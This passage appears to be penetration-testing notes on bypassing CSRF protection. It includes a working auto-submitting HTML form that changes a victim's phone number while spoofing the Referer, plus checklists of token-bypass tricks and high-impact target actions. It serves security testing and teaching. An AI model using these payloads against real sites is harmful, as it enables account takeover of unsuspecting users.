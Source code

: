 {% embed url="https://medium.com/@osamaaly/csrf-bypass-using-domain-confusion-leads-to-ato-ac682dd17722" %}

```html
<html>
  <head><meta name="referrer" content="unsafe-url"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
  <form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">
    <input type="hidden"
    name= '{"phone":"01111111118","a":"' value='"}'>
    </form>
    <script>
      history.pushState("", "", "/anything@account.example.com")
      document.forms[0].submit();
    </script>
  </body>
</html>

------------------------------
# Request
POST /phone.json
Host: account.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
Referer: https://evil.com/test@example.com

{"phone":"01111111118","a":""}
```

*   [ ] &#x20;**Bypass CSRF Protection by Using XSS**

    Steal victim CSRF Token Via XSS Vulnerability
* [ ] **Replace the token with unreal token but with the same length**
* [ ] **Bypass using subdomain takeover + CORS**&#x20;

{% embed url="https://monish-basaniwal.medium.com/how-i-found-my-first-subdomain-takeover-vulnerability-b7d5c17b61fd" %}

* [ ] **Try to decrypt the hash (maybe CSRF is a hash)**
* [ ] **Analyze Token(use burp)**
  * Sometimes Anti-CSRF token is composed of two parts, one of them remains static while the other one is dynamic."`837456mzy29jkd911139`" for one request the other time "`837456mzy29jkd337221`" if you notice, "`837456mzy29jkd`" part of the token remains same, send the request with only the static part
* [ ] **Sometimes the anti-csrf check is dependent on User-Agent as well.**
  * If you try to use a mobile/tablet user agent, the application may not even check for an anti-csrf token.

## Where To Find

1. **Authentication-Required Actions**: Look for actions that require authentication, such as changing account settings, updating passwords, or making transactions. These are common areas where CSRF vulnerabilities can have significant impact.
2. **User Profile Changes**: Check for actions related to user profile changes, such as updating email addresses, changing personal information, or modifying profile pictures.
3. **Account Deletion or Suspension**: Actions that allow a user to delete or suspend their account could be targets for CSRF attacks.
4. **Payment and Transactional Actions**: Look for payment-related actions like making transactions, adding payment methods, or modifying subscription plans.
5. **Form Submissions**: Any action that involves form submissions could potentially be a target. This includes actions like submitting support tickets, submitting feedback, or submitting any kind of content.
6. **CSRF Tokens**: Some applications use CSRF tokens as a mitigation technique. Look for instances where CSRF tokens are missing or improperly validated. You might find CSRF tokens in hidden fields within HTML forms or as headers in AJAX requests.